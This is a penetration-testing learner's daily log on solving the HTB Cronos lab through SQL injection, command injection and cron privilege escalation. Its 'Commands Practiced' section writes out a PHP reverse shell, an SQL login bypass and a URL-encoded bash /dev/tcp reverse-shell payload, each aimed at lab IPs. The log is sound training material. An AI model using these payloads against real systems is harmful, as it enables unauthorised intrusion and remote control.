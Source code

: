 ## Learning Log – 2025-07-12

**Focus Areas**: HTB, Privilege Escalation, SQLi, Burp Suite, Python, linPEAS

---

### Today's Progress

- Completed HTB **Cronos** (Linux, Medium). Exploited a SQL injection vulnerability to gain shell access via command injection through Burp Suite.
- Identified a cron job owned by root and leveraged it for privilege escalation using PHP reverse shell payloads.
- Uploaded and ran `linpeas.sh` for the first time as a local user on the target, revealing significant post-exploitation info.
- Navigated around compiling a 9-year-old PoC by opting for a cleaner cron job-based escalation path.
- Used Burp Suite entirely from memory — no external lookup required.
- Applied resources from Exploit-DB and Oracle's docs for vulnerability verification and contextual info.
- Completed the last remaining MOOC Python segment.
- Switched to *Automate the Boring Stuff with Python* (ATBS) and read/skipped through up to page **82**, reinforcing core Python concepts.

---

### Challenges Faced

- Considered compiling an old vulnerability exploit but anticipated dependency hell on a legacy target — avoided.
- Still internalizing the deluge of information linPEAS outputs; managing signal vs noise was tough.

---

### Wins

- First time using Burp Suite repeater successfully without guidance.
- Handled cron-based privilege escalation independently.
- Shell payload logic is starting to feel second-nature.
- linPEAS usage unlocked a much deeper view into potential escalation vectors.
- Comfortably resumed Python learning flow by switching to a better-aligned resource (ATBS).

---

### Commands Practiced

- `php -r '$sock=fsockopen("10.10.14.10", 443);exec("/bin/sh -i <&3 >&3 2>&3");'`
- SQLi: `' or 1=1-- -`
- Burp Repeater: `command=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.24/443+0>%261'%26host=`

---

### Concepts Reinforced

- Cron jobs as viable and clean privilege escalation vectors.
- Dynamic shell payload crafting and delivery via web interfaces.
- Reverse shell logic across PHP, Bash, and Burp Suite contexts.
- Importance of signal filtering when using automated recon tools like linPEAS.
- Reaffirmed learning style: visual, direct-use Python projects > abstract exercises.

---

### Tools / Resource(s) Used

- Burp Suite
- linPEAS
- Exploit-DB
- Oracle security docs
- [ATBS — Automate the Boring Stuff with Python (print copy)]

---

### Reflection / Notes to Self

- Feeling a strong shift in fluency — tools like Burp are less intimidating now.
- linPEAS output can overwhelm, but is worth reviewing even after root for skill building.
- ATBS already feels more natural than the MOOC; skipping ahead worked well.

---

### Tomorrow's Goals

- Begin HTB: **Forest** (last of the week).
- Read relevant OSCP Bible sections for Forest, as previously suggested.
- Continue ATBS, aim to complete Chapter 4 and write one small automation script.